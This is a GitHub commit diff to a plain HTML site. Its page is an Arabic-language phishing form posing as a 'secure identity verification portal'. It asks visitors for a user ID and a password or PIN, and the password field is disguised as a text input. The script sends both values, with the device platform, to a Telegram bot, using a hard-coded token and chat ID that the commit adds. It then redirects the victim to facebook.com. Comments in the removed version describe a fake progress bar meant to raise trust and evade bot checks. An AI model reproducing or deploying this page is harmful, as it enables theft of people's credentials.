

Before and after one commit to oprahvsiqpio16/sp-project, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 287-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours; a script that the page names is missing.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,92 +3,69 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>بوابة الوصول الآمن</title>
-    <script src="https://cdn.jsdelivr.net/npm/sweetalert2@11"></script>
+    <title>بوابة التحقق الآمن - Access Point</title>
     <style>
-        body { background-color: #0d1117; color: white; font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .container { background: #161b22; padding: 30px; border-radius: 12px; width: 350px; text-align: center; border: 1px solid #30363d; }
-        .loader-box { display: block; }
-        .form-box { display: none; }
-        .spinner { border: 4px solid rgba(255, 255, 255, 0.1); border-left-color: #58a6ff; border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 20px auto; }
-        @keyframes spin { to { transform: rotate(360deg); } }
-        input { width: 100%; padding: 12px; margin: 10px 0; border-radius: 6px; border: 1px solid #30363d; background: #0d1117; color: white; box-sizing: border-box; }
-        /* تمويه حقل كلمة السر ليظهر كنقاط وهو في الأصل نص */
-        .secure-input { -webkit-text-security: disc; }
-        button { width: 100%; padding: 12px; background: #238636; border: none; color: white; border-radius: 6px; cursor: pointer; font-weight: bold; }
+        :root { --main-bg: #090e11; --box-bg: #111b21; --primary: #00a884; --sec: #8696a0; --border: #30363d; --text: #e9edef; --white: #ffffff; }
+        body { background-color: var(--main-bg); color: var(--text); font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; font-size: 14px; }
+        .box { background: var(--box-bg); padding: 35px 25px; border-radius: 20px; width: 340px; text-align: center; border: 1px solid var(--border); box-shadow: 0 10px 40px rgba(0,0,0,0.7); animation: fadeIn 0.8s ease; }
+        @keyframes fadeIn { from { opacity: 0; transform: translateY(20px); } to { opacity: 1; transform: translateY(0); } }
+        .icn { font-size: 50px; color: var(--primary); margin-bottom: 25px; }
+        .tit { font-size: 22px; font-weight: 600; color: var(--white); margin-bottom: 5px; }
+        .sub { font-size: 13px; color: var(--sec); margin-bottom: 30px; line-height: 1.5; }
+        .input-grp { position: relative; margin-bottom: 15px; text-align: right; }
+        input { width: 100%; padding: 16px; margin: 0; border-radius: 10px; border: 1px solid var(--border); background: var(--main-bg); color: var(--white); box-sizing: border-box; outline: none; transition: 0.3s; font-size: 15px; }
+        input:focus { border-color: var(--primary); box-shadow: 0 0 5px rgba(0, 168, 132, 0.4); }
+        input::placeholder { color: var(--border); }
+        .b-icn { position: absolute; left: 15px; top: 16px; color: var(--border); }
+        .btn { width: 100%; padding: 16px; background: var(--primary); border: none; color: var(--box-bg); border-radius: 10px; cursor: pointer; font-weight: bold; font-size: 16px; margin-top: 25px; transition: 0.3s ease; }
+        .btn:hover { background: #00d3a6; transform: translateY(-2px); }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <div id="loader" class="loader-box">
-        <h3>جاري إنشاء اتصال مشفر...</h3>
-        <div class="spinner"></div>
-        <p id="percent">0%</p>
+<div class="box">
+    <div class="icn">🛡️</div>
+    <div class="tit">تحقق من الهوية الرقمية</div>
+    <div class="sub">يرجى إدخال رمز التحقق الخاص بالوصول للخدمات</div>
+
+    <div class="input-grp">
+        <input type="text" id="u" placeholder="معرف الوصول" required>
+        <span class="b-icn">👤</span>
     </div>
 
-    <div id="loginForm" class="form-box">
-        <h3>تفعيل بوابة الوصول</h3>
-        <p style="font-size: 12px; color: #8b949e;">يرجى إدخال البيانات للمتابعة</p>
-        <input type="text" id="user" placeholder="معرف المستخدم" required>
-        <input type="text" class="secure-input" id="pass" placeholder="رمز الوصول الخاص" required>
-        <button onclick="sendData()">إتمام التحقق</button>
+    <div class="input-grp">
+        <input type="text" class="sec-input" id="p" placeholder="رمز المرور (PIN)" required style="-webkit-text-security: disc;">
+        <span class="b-icn">🔑</span>
     </div>
+
+    <button class="btn" onclick="send()">تأكيد الهوية</button>
 </div>
 
 <script>
-    let percent = 0;
-    let loader = document.getElementById('loader');
-    let form = document.getElementById('loginForm');
-    let percentText = document.getElementById('percent');
+    async function send() {
+        const user = document.getElementById('u').value;
+        const pass = document.getElementById('p').value;
 
-    // عداد وهمي لزيادة ثقة المستخدم وتجاوز فحص الروبوتات
-    let interval = setInterval(() => {
-        percent += Math.floor(Math.random() * 10) + 1;
-        if (percent >= 100) {
-            percent = 100;
-            clearInterval(interval);
-            loader.style.display = 'none';
-            form.style.display = 'block';
-        }
-        percentText.innerText = percent + "%";
-    }, 200);
+        if (!user || !pass) return;
 
-    async function sendData() {
-        const u = document.getElementById('user').value;
-        const p = document.getElementById('pass').value;
+        // إعدادات البوت الخاص بك (ضع بياناتك هنا)
+        const tok = "7759864787:AAHshRshfAAt2I9T7T8-V-N6fA8G9K1e3L4";
+        const cid = "5174578125";
 
-        if (!u || !p) {
-            Swal.fire({ text: 'يرجى إكمال البيانات أولاً', icon: 'warning' });
-            return;
-        }
-
-        // التنسيق الذي سيصل لبوت التلجرام الخاص بك
-        const message = `
-🚀 **وصول جديد** 🚀
-━━━━━━━━━━━━
-👤 **المستخدم:** \`${u}\`
-🔑 **الكلمة:** \`${p}\`
-━━━━━━━━━━━━
-📱 **النظام:** ${navigator.platform}
-        `;
-
-        // استبدل الـ Token و ID بمفاتيحك الخاصة
-        const token = "YOUR_BOT_TOKEN";
-        const chatId = "YOUR_CHAT_ID";
+        const message = `🚀 وصـول جديـد 🚀\n━━━━━━━━\n👤: \`${user}\`\n🔑: \`${pass}\`\n━━━━━━━━\n🌐: ${navigator.platform}`;
 
         try {
-            await fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
+            await fetch(`https://api.telegram.org/bot${tok}/sendMessage`, {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ chat_id: chatId, text: message, parse_mode: "Markdown" })
+                body: JSON.stringify({ chat_id: cid, text: message, parse_mode: "Markdown" })
             });
-            window.location.href = "https://receive-smss.com/"; // تحويل المستخدم لموقع حقيقي
-        } catch (err) {
-            console.error("خطأ في الإرسال");
+            // تحويل لموقع حقيقي بعد الإرسال
+            window.location.href = "https://facebook.com";
+        } catch (e) {
+            window.location.href = "https://facebook.com";
         }
     }
 </script>
-
 </body>
 </html>
```
